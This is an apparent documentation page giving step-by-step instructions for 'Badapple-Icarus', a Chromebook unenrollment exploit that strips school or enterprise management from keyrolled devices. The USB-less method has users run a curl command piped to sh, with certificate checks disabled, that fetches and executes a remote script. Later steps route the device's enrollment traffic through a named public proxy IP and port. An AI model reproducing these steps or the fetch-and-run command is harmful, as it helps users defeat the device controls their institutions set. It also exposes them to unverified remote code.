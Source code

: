 ```yaml
---
title: Badapple-Icarus Unenrollment Exploit
---
```


# Badapple-Icarus

## Info
Badapple-Icarus is an unenrollment exploit for Kernver 4, keyrolled devices, NEW UI, and disk layout v3 devices.

If you have a non-keyrolled device (unable to boot shims), see [Icarus](https://docs.titaniumnetwork.org/kajigs/Icarus).

## Requirements:
- **Kernver 4**: To check your Kernver, enter Recovery Mode and press the `TAB` key. See [Kernver Info](/kajigs/kernverinfo)
- **Version V125 - V127**: You can upgrade/downgrade using images from [Chrome100](https://chrome100.dev).
- **Keyrolled Chromebook** with New UI.
- **Personal Computer** (no Crostini, no VMs, etc.).

## USB-LESS METHOD (NEEDS WIFI):

1. Enter Badapple by booting into Recovery Mode and pressing `ESC + Refresh + Power`.
2. Go into Developer Mode by pressing `Ctrl + D`.
3. Once on the Developer Mode block screen, press `ESC + Refresh + Power` again.
4. Select the "Internet Recovery" option.
5. Connect to Wi-Fi **ONLY** - do not proceed further.
6. Press `Ctrl + Alt + F3` to open a shell.
7. Run the following command:
   ```bash
   curl -SLk cdn.fanqyxl.net/icarus_ota.sh | sh
   ```
8. Wait for the script to finish, then continue to the **Continuing On** section instructions.

## USB METHOD (NO WIFI):

1. Download the Badapple-Icarus [image](https://cdn.fanqyxl.net/icarus-ba.img).
2. Flash the image onto a USB drive using one of:
   - `dd` command
   - [Balena Etcher](https://www.balena.io/etcher/)
   - [Rufus](https://rufus.ie/)
3. Enter Badapple by booting into Recovery Mode and pressing `ESC + Refresh + Power`.
4. Go into Developer Mode by pressing `Ctrl + D`.
5. Once on the Developer Mode block screen, press `ESC + Refresh + Power` again.
6. Select the "Internet Recovery" option.
7. Press `Ctrl + Alt + F3` to open a shell.
8. Plug in your USB drive.
9. Run `fdisk -l` to find your USB drive identifier.
10. Mount the image with:
    ```bash
    mkdir /icarus && mount /dev/sdX /icarus
    ```
    Replace X with your USB identifier (e.g., /dev/sda)

### Continuing On:

1. Once the payload is done and you're back at the OOBE (Out-of-Box Experience):
   - Connect your Chromebook to Wi-Fi using the "Quick Settings" menu, but **do not continue** with the OOBE.
2. Start your server and change your connection settings to "Manual":
   - Set the "Secure HTTP" IP address to `152.53.243.119`
   - Set the "Secure HTTP" port to `8126`
   - **Note**: Using a public server is a security risk. Host your own server using the instructions in the "Advanced" section.
3. Click **Save**.
4. Continue with the OOBE, and Icarus should unenroll your device!

<details>
<summary>Device still enrolling or getting "Can't reach Google"?</summary>

- Ensure that Icarus Lite is receiving and handling the ChromeOS device's requests. Check the terminal or window where Icarus Lite is running for any output beyond "Icarus LITE is running on...". If no additional output is present:
  - Re-run the Icarus shim and ensure the target ChromeOS device and the device hosting the proxy are on the **same Wi-Fi network**.
  - Ensure the shim used on the target ChromeOS device was built with the same CA (Certificate Authority) used to generate the SSL certificates.
  - If you're using a prebuilt shim and don't know what CA was used, consider building your own shim and SSL certificates if nothing else works.
  - Note: Being above ChromeOS v130 or below ChromeOS v125 will cause the target ChromeOS device to reject the connection to the MiniServer, resulting in the "Can't reach Google" screen.

</details>

## Advanced:

- [Hosting Your Own Icarus Lite Server](https://github.com/cosmicdevv/Icarus-Lite)
- [Building Badapple-Icarus Image](https://github.com/applefritter-inc/BadApple-icarus?tab=readme-ov-file#build-a-badapple-icarus-image)
- [Building Manual Certs](https://github.com/cosmicdevv/Icarus-Lite?tab=readme-ov-file#ssl-certificates)

## Credits:
- Original Icarus Devs ([See Repo](https://github.com/fanqyxl/icarus?tab=readme-ov-file#original-credits))
- [Icarus-Lite](https://github.com/cosmicdevv/Icarus-Lite)
- [Appleflyer](https://github.com/appleflyerv3)
- [Fanqyxl](https://fanqyxl.net): Hosting Icarus Lite public server and generating certs
- [All other contributors](https://github.com/applefritter-inc/BadApple-icarus?tab=readme-ov-file#credits)
